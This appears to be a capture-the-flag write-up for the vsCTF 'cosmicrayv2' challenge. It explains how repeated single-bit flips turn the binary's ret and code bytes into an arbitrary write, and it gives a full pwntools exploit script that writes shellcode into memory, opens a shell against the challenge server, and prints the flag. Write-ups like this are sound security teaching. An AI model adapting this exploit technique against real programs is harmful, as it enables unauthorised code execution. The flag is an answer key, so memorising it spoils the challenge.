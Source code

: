 ### **[0x01] Summary**

make AAW using 1-bit flip to many jmp, call, ret, and etc., then shell code it

### **[0x02] Solutions**

I thought that the given binaries (`ld-2.35.so`, `libc-2.35.so`) is most important and I tried bit-flip to leave of `cosmic_ray` function (== 0x4015E8), but it failed and I gave up. But, one of the solvers has shared the write-up about bit-flip for ret of `cosmic_ray` function (== 0x4015E9). It bypass a break of stack alignment and it goes well. And, intended write-up is about canary jmp (0x4015E2, 4th bit-flip), maybe.

```py
from pwn import *

def flip(addr, index):
    p.sendlineafter(b":\n", hex(addr).encode())
    p.sendlineafter(b":\n", str(index).encode())

def flop(addr, wanted):
    print(hex(wanted))
    p.sendlineafter(b":\n", hex(addr).encode())
    p.recvuntil(b"-\n")
    cur_bin = ''.join(p.recvuntil(b"\n", True).decode().split('|'))
    bin_str = "{0:b}".format(wanted).rjust(8, '0')
    diff = []
    for i in range(8):
        if cur_bin[i] != bin_str[i]:
            diff.append(i)
    if len(diff) == 0:
        p.sendlineafter(b":\n", str(0).encode())
        flip(addr, 0)
    else:
        p.sendlineafter(b":\n", str(diff.pop(0)).encode())
        for i in diff:
            flip(addr, i)

context(arch='amd64', os='linux')
code = asm(shellcraft.sh())
if args.REMOTE:
    p = remote('vsc.tf', 3047)
else:
    p = process('./cosmicrayv2', aslr=1)

target = 0x4015E9
flip(target, 0)

start_addr = 0x401624
end_addr = start_addr + len(code)
for i in range(len(code)):
    flop(start_addr + i, code[i])

flip(target, 0)
p.interactive()
```

`vsctf{m3_wh3n_c0mp1l1ng_w1th_c4n4ry_1s_m0r3_vuln3r4bl3_th4n_c0mp1l1ng_w1th0ut}`

